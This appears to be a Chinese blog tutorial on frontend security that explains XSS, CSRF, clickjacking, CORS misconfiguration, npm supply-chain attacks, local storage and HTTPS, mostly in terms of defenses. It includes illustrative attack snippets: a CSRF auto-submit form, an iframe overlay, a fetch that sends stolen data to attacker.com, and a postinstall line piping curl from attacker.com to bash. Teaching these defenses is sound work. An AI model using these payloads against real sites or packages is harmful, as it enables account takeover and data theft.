






前端安全这事，很多人觉得是后端的活，或者觉得自己的项目没那么重要不会被攻击。但现实是，XSS、CSRF 这些漏洞在野外太常见了，而且很多时候攻击者就是用自动化工具扫的，不挑项目大小。

这篇文章把前端常见的安全问题捋一遍，每个问题讲清楚原理、攻击方式和防护手段。

## XSS：最常见的前端漏洞 ##

XSS（Cross-Site Scripting，跨站脚本攻击）的核心就是把恶意脚本注入到网页里，让浏览器把它当正常代码执行。攻击者可以偷 Cookie、劫持会话、钓鱼、甚至发起蠕虫攻击。

### 三种常见类型 ###

三种 XSS 的攻击链路长这样：



#### 存储型 XSS ####

恶意代码被存到数据库里，每次访问都会执行。比如论坛的评论功能，攻击者提交一条包含恶意脚本的评论，其他用户一看评论就中招。这种危害最大，影响所有访问该页面的用户。

```javascript
// 危险的写法
function renderComment(comment) {
  document.getElementById('comment').innerHTML = comment.content;
}
```

#### 反射型 XSS ####

恶意代码在 URL 参数里，服务器把参数原样返回到页面。常见于搜索功能：

```javascript
// URL: https://example.com/search?q=<script>alert('XSS')</script>

// 服务器返回
<div>搜索结果：<script>alert('XSS')</script></div>
```

攻击者需要诱导用户点击特定链接才能触发，但传播性很强，可以通过钓鱼邮件、社交媒体等方式大量散播。

#### DOM 型 XSS ####

纯前端的问题，不经过服务器。直接用 URL 参数操作 DOM：
javascript 体验AI代码助手 代码解读复制代码// URL: https://example.com#

const hash = location.hash.slice(1);
document.getElementById('output').innerHTML = hash;  // 中招了

### 防御 XSS 的完整方案 ###

#### 输出编码（根据上下文选择） ####

不同位置需要不同的编码方式：

```javascript
// HTML 上下文：转义 & < > " '
function escapeHtml(str) {
  const map = {
    '&': '&amp;',
    '<': '&lt;',
    '>': '&gt;',
    '"': '&quot;',
    "'": '&#x27;'
  };
  return str.replace(/[&<>"']/g, (char) => map[char]);
}

// URL 参数：使用 encodeURIComponent
const url = `https://example.com/search?q=${encodeURIComponent(userInput)}`;

// JavaScript 字符串：使用 JSON.stringify 或 Unicode 编码
const safeStr = JSON.stringify(userInput);

// CSS 上下文：转义特殊字符或禁止用户输入影响样式
// 最好别让用户输入直接影响 CSS
```

实际使用：

```javascript
// 使用
element.innerHTML = escapeHtml(userInput);
```

#### 使用安全的 API ###

不要用 `innerHTML`，用 `textContent` 或 `innerText`：

```javascript
// 危险
element.innerHTML = userInput;

// 安全
element.textContent = userInput;

// Vue/React 里也一样
// 危险：<div v-html="userInput"></div>
// 安全：<div>{{ userInput }}</div>
```

现代框架（React、Vue、Angular）默认会做转义，但要注意"逃生舱口"：

```jsx
// React - 危险的 API
<div dangerouslySetInnerHTML={{ __html: userContent }} />

// Vue - 危险的指令
<div v-html="userContent"></div>

// Angular - 危险的方式
<div [innerHTML]="userContent"></div>

// 这些地方需要手动净化
```

#### HTML 净化库 ####

如果必须渲染富文本（比如博客、论坛的富文本编辑器），用 `DOMPurify` 清理：

```javascript
import DOMPurify from 'dompurify';

const dirty = '';
const clean = DOMPurify.sanitize(dirty);
element.innerHTML = clean;  // 安全

// 配置允许的标签和属性
const clean2 = DOMPurify.sanitize(dirty, {
  ALLOWED_TAGS: ['p', 'strong', 'em', 'a'],
  ALLOWED_ATTR: ['href', 'title']
});
```

DOMPurify 会移除所有潜在危险的标签和属性（`<script>`、`onerror`、`javascript` 等），同时保留合法的 HTML 结构。

#### HttpOnly Cookie ####

设置 Cookie 时加上 `HttpOnly`，JavaScript 就读不到，XSS 攻击也偷不走：

```javascript
// 后端设置
res.cookie('sessionId', 'xxx', {
  httpOnly: true,    // JavaScript 访问不到
  secure: true,      // 只在 HTTPS 下发送
  sameSite: 'strict' // 跨站请求不发送
});
```

#### Content Security Policy (CSP) ####

CSP 是浏览器级别的防护，通过 HTTP 响应头限制页面能加载哪些资源。设置好 CSP，即使有 XSS 漏洞，攻击者也很难利用。

通过 HTTP 响应头设置：

```text
Content-Security-Policy: default-src 'self'; script-src 'self' 'nonce-abc123'; style-src 'self' 'unsafe-inline'; img-src *; object-src 'none'
```

或者用 meta 标签：

```html
<meta http-equiv="Content-Security-Policy" content="default-src 'self'; script-src 'self' https://trusted.com">
```

这个策略的意思是：

- `default-src 'self'`：默认只能加载同源资源
- `script-src 'self' 'nonce-abc123'`：脚本只能来自同源或带有特定 `nonce` 的内联脚本
- `object-src 'none'`：禁止 `<object>`、`<embed>` 标签

##### CSP 指令详解 #####

```perl
Content-Security-Policy:
  default-src 'none';                                 # 默认禁止所有
  script-src 'self' 'nonce-randomvalue' https://cdn.example.com;  # 脚本来源
  style-src 'self' 'nonce-randomvalue';               # 样式来源
  img-src 'self' data: https:;                        # 图片来源
  font-src 'self' https://fonts.gstatic.com;          # 字体来源
  connect-src 'self';                                 # Ajax/WebSocket 连接
  frame-ancestors 'none';                             # 防止被嵌入 iframe
  base-uri 'self';                                    # 限制 <base> 标签
  form-action 'self';                                 # 表单提交地址
```

关键点：

- 避免使用 `'unsafe-inline'` 和 `'unsafe-eval'`，它们会削弱 CSP 保护
- 用 `nonce` 或 `hash` 代替 `unsafe-inline`
- `frame-ancestors` 防止点击劫持
- 配置 `report-uri` 收集违规报告

**nonce 的正确用法**

服务器为每个请求生成随机 nonce，内联脚本必须匹配：

```html
<!-- 服务器每次请求生成新的 nonce -->
<!-- 响应头 -->
Content-Security-Policy: script-src 'nonce-abc123'

<!-- HTML -->
<script nonce="abc123">
  console.log('Allowed');  // 这个脚本可以执行
</script>

<script>
  console.log('Blocked');  // 攻击者注入的脚本，没有 nonce，被拦截
</script>
```

后端生成 nonce 的示例：

```javascript
// Express 中间件
const crypto = require('crypto');

app.use((req, res, next) => {
  // 每次请求生成新的 nonce
  res.locals.nonce = crypto.randomBytes(16).toString('base64');
  res.setHeader(
    'Content-Security-Policy',
    `script-src 'nonce-${res.locals.nonce}'`
  );
  next();
});
```

**Report-Only 模式**

先用 `Content-Security-Policy-Report-Only` 测试，不会真的阻止资源，只是上报违规：

```text
Content-Security-Policy-Report-Only: default-src 'self'; report-uri /csp-report
```

看看有哪些资源违规，调整策略后再正式启用。

## CSRF：借刀杀人 ##

CSRF（Cross-Site Request Forgery，跨站请求伪造）的原理是：用户登录了 A 网站，Cookie 里有会话信息。用户访问恶意网站 B，B 网站向 A 发请求，浏览器会自动带上 A 的 Cookie，A 网站以为是用户本人的操作。



### 攻击示例 ###

用户登录了银行网站 `bank.com`，Cookie 还有效。这时候访问了恶意网站 `evil.com`，恶意网站里有这样一段代码：

```html
<!-- 方式1：隐藏图片 -->


<!-- 方式2：自动提交表单 -->
<form action="https://bank.com/transfer" method="POST" id="evilForm">
  <input type="hidden" name="to" value="attacker" />
  <input type="hidden" name="amount" value="10000" />
</form>
<script>document.getElementById('evilForm').submit();</script>
```

浏览器会自动带上 `bank.com` 的 Cookie 发请求，钱就转走了。用户完全不知情。

### 防御 CSRF 的完整方案 ###

#### CSRF Token（最可靠） ####

服务器生成一个随机 token，存在 session 里，同时放到页面的隐藏字段或请求头中。提交时验证 token 是否匹配。

```javascript
// 前端从页面获取 token
const csrfToken = document.querySelector('meta[name="csrf-token"]').content;

// 方式1：放在请求头
fetch('/api/transfer', {
  method: 'POST',
  headers: {
    'X-CSRF-Token': csrfToken,
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({ to: 'user', amount: 100 })
});

// 方式2：放在表单隐藏字段
// <input type="hidden" name="_csrf" value="token-from-server">
```

后端验证：

```javascript
// Express 示例
const csrf = require('csurf');
const csrfProtection = csrf({ cookie: true });

app.post('/transfer', csrfProtection, (req, res) => {
  // token 验证通过才会到这里
  // 执行转账逻辑
});
```

攻击者没法获取这个 token（跨域拿不到页面内容），伪造的请求就会失败。

#### SameSite Cookie（现代浏览器默认防护） ####

Cookie 加上 `SameSite` 属性，跨站请求就不会带 Cookie：

```javascript
// 后端设置
res.cookie('sessionId', 'xxx', {
  httpOnly: true,
  secure: true,
  sameSite: 'strict'  // 或者 'lax'
});
```

三个值的区别：

- `Strict`：跨站请求完全不发送 Cookie，最安全但可能影响用户体验（从外部链接点进来也没 Cookie，需要重新登录）
- `Lax`：GET 请求的顶级导航可以发送（比如点链接），POST 不发送。大多数场景够用，Chrome 80 之后的默认值
- `None`：都发送，但必须配合 `Secure`（仅 HTTPS）

实际效果：

```javascript
// 用户在 bank.com 登录，Cookie 设置为 SameSite=Strict

// 场景1：从外部链接（evil.com）点击跳转到 bank.com
// 结果：Cookie 不会发送，用户需要重新登录

// 场景2：evil.com 的脚本发起对 bank.com 的请求
// 结果：Cookie 不会发送，请求失败

// 场景3：bank.com 内部的链接跳转
// 结果：Cookie 正常发送
```

Chrome 从 2020 年开始，没设置 SameSite 的 Cookie 默认当作 `Lax` 处理，大大提升了安全性。

#### 验证 Origin/Referer 头 ####

检查请求的 `Origin` 或 `Referer` 头，拒绝来自其他域的请求：

```javascript
// 后端验证
const origin = req.headers.origin || req.headers.referer;

if (!origin || !origin.startsWith('https://yoursite.com')) {
  return res.status(403).send('Forbidden');
}
```

但这个方法有局限性：

- 某些情况下这两个头可能不存在（隐私设置、代理）
- 可以作为额外防护层，但不应单独依赖

#### 双重 Cookie 验证 ####

将 token 同时存在 Cookie 和请求参数中，服务器比对两者是否一致：

```javascript
// 登录时设置
res.cookie('csrf_token', token);

// 前端发请求时，从 cookie 读取 token 并放到请求头
const token = document.cookie.split('csrf_token=')[1];
fetch('/api/action', {
  headers: { 'X-CSRF-Token': token }
});

// 后端验证
const cookieToken = req.cookies.csrf_token;
const headerToken = req.headers['x-csrf-token'];
if (cookieToken !== headerToken) {
  return res.status(403).send('CSRF token mismatch');
}
```

攻击者的跨站请求虽然能自动带上 Cookie，但无法读取 Cookie 内容，也就拿不到 token 放到请求头里。

## 点击劫持：障眼法 ##

点击劫持（Clickjacking）是把目标网站用透明 iframe 嵌入到攻击者网站，用户以为在点攻击者的页面，实际点的是 iframe 里的目标网站。



### 攻击场景 ###

攻击者页面上放了个"领取优惠券"按钮，但按钮下面是透明的 iframe，iframe 里加载的是银行网站的转账确认按钮：

```html
<!-- 攻击者页面 -->
<style>
  iframe {
    opacity: 0.01;  /* 几乎透明 */
    position: absolute;
    top: 0;
    left: 0;
    z-index: 9999;
  }
  .fake-button {
    position: absolute;
    top: 100px;
    left: 100px;
  }
</style>

<iframe src="https://bank.com/transfer"></iframe>
<button class="fake-button">领取优惠券</button>
```

用户点"领取优惠券"，实际触发了 iframe 里银行网站的转账确认按钮。

### 防护手段 ###

#### X-Frame-Options 头 ####

最简单有效的方法：

```yaml
X-Frame-Options: DENY        # 完全禁止被 iframe 嵌入
X-Frame-Options: SAMEORIGIN  # 只允许同源嵌入
```

Nginx 配置：

```nginx
add_header X-Frame-Options "SAMEORIGIN" always;
```

#### CSP frame-ancestors（推荐） ####

更现代的方案，功能更强大：

```text
Content-Security-Policy: frame-ancestors 'self' https://trusted.com
```

可以指定多个允许的域名，比 X-Frame-Options 灵活：

```bash
# 只允许同源
Content-Security-Policy: frame-ancestors 'self'

# 允许多个信任域名
Content-Security-Policy: frame-ancestors 'self' https://trusted1.com https://trusted2.com

# 完全禁止
Content-Security-Policy: frame-ancestors 'none'
```

#### SameSite Cookie ####

即使页面被嵌入 iframe，设置了 `SameSite=Strict` 或 `SameSite=Lax` 的 Cookie 不会发送，用户在 iframe 里相当于未登录状态，无法完成敏感操作。

#### 前端检测 ####

JavaScript 检测页面是否被嵌入：

```javascript
if (window.top !== window.self) {
  // 页面被嵌入 iframe
  // 可以跳出 iframe 或显示警告
  window.top.location = window.self.location;
}
```

但这个方法不太可靠，攻击者可以用 `sandbox` 属性禁用脚本。建议作为辅助手段，主要还是靠 HTTP 头。

这三个手段建议同时使用，形成纵深防御。

## CORS 配置错误：开错了门 ##

CORS（跨域资源共享）本身是安全机制，但配置不当反而会造成漏洞。

### 危险配置示例 ###

```javascript
// 后端代码 - 危险示例
app.use((req, res, next) => {
  // 把请求的 Origin 直接反射回去，太危险了
  res.setHeader('Access-Control-Allow-Origin', req.headers.origin);
  res.setHeader('Access-Control-Allow-Credentials', 'true');
  next();
});
```

这样配置等于对所有网站敞开大门。攻击者网站可以发请求获取用户数据：

```javascript
// 攻击者网站 (evil.com)
fetch('https://api.target.com/user/profile', {
  credentials: 'include'  // 带上 cookie
})
.then(res => res.json())
.then(data => {
  // 拿到用户敏感信息，发送给攻击者服务器
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify(data)
  });
});
```

因为响应头允许任意 Origin 并且允许携带凭证，攻击者可以轻松窃取用户数据。

### 安全配置 ###

#### 白名单验证 ####

```javascript
const allowedOrigins = [
  'https://myapp.com',
  'https://admin.myapp.com',
  'https://mobile.myapp.com'
];

app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (allowedOrigins.includes(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');
  }
  next();
});
```

#### 正则匹配（谨慎使用） ####

```javascript
const allowedOriginPattern = /^https:\/\/.*\.myapp\.com$/;

app.use((req, res, next) => {
  const origin = req.headers.origin;
  if (origin && allowedOriginPattern.test(origin)) {
    res.setHeader('Access-Control-Allow-Origin', origin);
    res.setHeader('Access-Control-Allow-Credentials', 'true');
  }
  next();
});
```

注意正则要严格，避免被绕过。比如 `/\.myapp\.com$/` 可以被 `evil.com.myapp.com` 绕过。

#### 限制允许的方法和头 ####

```javascript
res.setHeader('Access-Control-Allow-Methods', 'GET, POST, PUT, DELETE');
res.setHeader('Access-Control-Allow-Headers', 'Content-Type, Authorization');
res.setHeader('Access-Control-Max-Age', '86400');  // 预检请求缓存 24 小时
```

**CORS 安全原则**：

- 不要用通配符 `*`（而且 `*` 和 `credentials: true` 不能同时用）
- 不要动态反射 Origin 而不验证
- 白名单要精确到协议+域名+端口
- 限制允许的 HTTP 方法
- 敏感接口不要开启 CORS，或者严格限制 Origin

## 依赖安全：供应链攻击 ##

npm 生态有个问题：安装一个包会引入 79 个第三方依赖和 39 个维护者的隐式信任。如果某个依赖被攻击者控制，你的项目就危险了。



### 常见攻击手法 ###

#### 依赖混淆 ####

公司内部用私有 npm 源，包名叫 `@company/utils`。攻击者在公共 npm 上注册同名包，如果配置不当，npm 可能优先安装公共源的恶意包。

```bash
# 攻击者注册公共包
npm publish @company/utils

# 公司内部安装时，如果没正确配置，可能装到恶意包
npm install @company/utils
```

#### 恶意安装脚本 ####

npm 包可以在 `package.json` 里定义安装脚本：

```json
{
  "scripts": {
    "preinstall": "node malicious.js",
    "postinstall": "curl http://attacker.com | bash"
  }
}
```

- `npm install`，脚本就执行了。可以窃取环境变量、源码、密钥等。

#### Typosquatting（错别字攻击） ####

注册与知名包相似的名字，等人打错字：

```bash
# 正确的包
npm install lodash

# 攻击者注册的恶意包
npm install loadash  # 少个 d
npm install lodahs   # h 和 s 位置反了
```

### 防御供应链攻击 ###

#### 锁定依赖版本 ####

用 `package-lock.json` 或 `yarn.lock` 固定依赖版本，防止自动升级引入恶意代码：

```json
// package.json - 精确版本，不要用 ^ 或 ~
{
  "dependencies": {
    "lodash": "4.17.21",    // 精确版本
    "axios": "1.6.2"        // 不用 ^1.6.2 或 ~1.6.2
  }
}
```

并且提交 `package-lock.json` 到代码仓库。

#### 使用 npm ci ####

CI/CD 流程中用 `npm ci` 而不是 `npm install`，确保严格按照 `lock` 文件安装：

```bash
# CI 脚本
npm ci              # 严格按 lock 文件安装
npm run build
npm test
```

`npm ci` 的特点：

- 删除 `node_modules` 重新安装
- 严格按 `lock` 文件，不会修改它
- 如果 `lock` 文件和 `package.json` 不一致会报错

#### 定期审计依赖 ####

```bash
# npm 内置审计
npm audit
npm audit fix       # 自动修复

# 或者用第三方工具
npx snyk test       # Snyk
npx socket security # Socket
```

设置 CI 自动检查：

```yaml
# GitHub Actions
- name: Security audit
  run: npm audit --audit-level=moderate
```

#### 禁用安装脚本 ####

如果不需要运行安装脚本，可以禁用：

```bash
npm install --ignore-scripts
```

在 `.npmrc` 里全局设置：

```ini
ignore-scripts=true
```

需要运行脚本时手动执行：

```bash
npm rebuild
```

#### 私有源 + 白名单 ####

公司内部搭建私有 npm 源（如 Verdaccio），只允许审核过的包进入。配合 `@scope` 命名空间使用：

```json
// .npmrc
@company:registry=https://npm.company.com
registry=https://registry.npmjs.org
```

这样 `@company/` 开头的包走私有源，其他包走公共源。

#### 检查依赖完整性 ####

使用 Subresource Integrity（SRI）验证 CDN 资源：

```html
<script
  src="https://cdn.example.com/library.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous"
></script>
```

如果 CDN 资源被篡改，浏览器会拒绝加载。

#### 减少依赖数量 ####

少用依赖。一个 `left-pad` 这种功能自己写几行代码就能搞定，没必要引入外部包：

```javascript
// 不需要安装 left-pad
function leftPad(str, len, char = ' ') {
  return String(char).repeat(Math.max(0, len - String(str).length)) + str;
}
```

每多一个依赖就多一个风险点。定期检查 `node_modules`，移除不用的包。

#### 工具推荐 ####

- lockfile-lint：检测 lockfile 是否被篡改
- npm-audit-resolver：更好的漏洞修复工具
- Snyk：依赖安全扫描
- Socket：实时监控依赖变化
- Dependabot：GitHub 自动更新依赖的安全补丁

## 本地存储安全：不该放的别放 ##

localStorage 和 sessionStorage 很方便，但它们对 JavaScript 完全可见。只要页面有 XSS 漏洞，攻击者就能把里面的东西全偷走。

### 不要存这些 ###

- **JWT Token**：最常见的错误，XSS 一发生就被偷走
- **用户密码**：即使加密也不要存在前端
- **个人敏感信息**：身份证号、银行卡号、手机号等
- **API 密钥**：应该在后端管理
- **会话 ID**：用 HttpOnly Cookie 更安全

### 如果非要存 ###

- **评估风险**：确认这个数据泄露后的影响
- **加密存储**：虽然不能阻止 XSS 攻击者拿到密文，但至少增加破解成本
- **设置过期时间**：自己实现过期机制，减少长期暴露的风险

```javascript
// 封装带过期时间的存储
const secureStorage = {
  set(key, value, ttl = 3600000) {  // 默认 1 小时
    const item = {
      value,
      expiry: Date.now() + ttl
    };
    localStorage.setItem(key, JSON.stringify(item));
  },

  get(key) {
    const itemStr = localStorage.getItem(key);
    if (!itemStr) return null;

    const item = JSON.parse(itemStr);
    if (Date.now() > item.expiry) {
      localStorage.removeItem(key);
      return null;
    }
    return item.value;
  },

  remove(key) {
    localStorage.removeItem(key);
  }
};

// 使用
secureStorage.set('tempData', { foo: 'bar' }, 60000);  // 1 分钟过期
const data = secureStorage.get('tempData');
```

### 推荐方案 ###

认证 token 优先考虑 `HttpOnly Cookie`：

```javascript
// 后端设置
res.cookie('auth_token', token, {
  httpOnly: true,      // JavaScript 访问不到
  secure: true,        // 只在 HTTPS 下发送
  sameSite: 'strict',  // 防 CSRF
  maxAge: 3600000      // 1 小时过期
});

// 前端发请求时，浏览器会自动带上 cookie
fetch('/api/user/profile', {
  credentials: 'include'
});
```

这样即使有 XSS 漏洞，攻击者也拿不到 token。

### IndexedDB 和 Web SQL ###

它们也有同样的问题，JavaScript 可以完全访问。不要用来存敏感数据。

## HTTPS：传输安全的基础 ##

HTTP 是明文传输，中间人能看到和修改所有内容。HTTPS 用 TLS/SSL 加密，提供三个保障：

1. **内容加密**：中间人看不到传输内容
2. **身份认证**：确保访问的是真正的服务器，不是中间人伪造的
3. **数据完整性**：防止内容被篡改

### HTTPS 工作原理 ###

HTTPS 用的是混合加密：*非对称加密* + *对称加密*。

#### 为什么不全用非对称加密？ ####

- 非对称加密安全但慢（RSA 加密速度比 AES 慢 1000 倍）
- 对称加密快但不安全（密钥怎么传输？）

所以结合两者：



**握手阶段（非对称加密）**：

- 客户端请求 HTTPS 连接
- 服务器返回数字证书（包含公钥）
- 客户端验证证书合法性
- 客户端生成随机对称密钥，用服务器公钥加密后发送
- 服务器用私钥解密，拿到对称密钥

**数据传输阶段（对称加密）**：

- 双方用协商好的对称密钥加密所有数据
- 速度快，安全性也有保障

### 数字证书如何防止中间人攻击 ###

中间人可能拦截服务器的公钥，替换成自己的。数字证书解决这个问题：

**证书包含**：

- 服务器公钥
- 域名信息
- 证书颁发机构（CA）的数字签名

**验证流程**：

- 浏览器用 CA 的公钥验证数字签名
- CA 的公钥内置在操作系统/浏览器中
- 如果签名验证失败，说明证书被篡改

**信任链**：

- 根 CA（受信任的权威机构）
- 中间 CA
- 服务器证书

中间人即使拦截并替换证书，也无法伪造 CA 的签名，浏览器会报警告。

### 前端要注意的 ###

#### 强制 HTTPS ####

配置重定向，HTTP 自动跳 HTTPS：

```nginx
server {
  listen 80;
  server_name example.com;
  return 301 https://$server_name$request_uri;
}

server {
  listen 443 ssl http2;
  server_name example.com;

  ssl_certificate /path/to/cert.pem;
  ssl_certificate_key /path/to/key.pem;

  # 现代 SSL 配置
  ssl_protocols TLSv1.2 TLSv1.3;
  ssl_ciphers HIGH:!aNULL:!MD5;
  ssl_prefer_server_ciphers on;
}
```

#### HSTS（HTTP Strict Transport Security） ####

告诉浏览器以后只用 HTTPS 访问：

```ini
Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
```

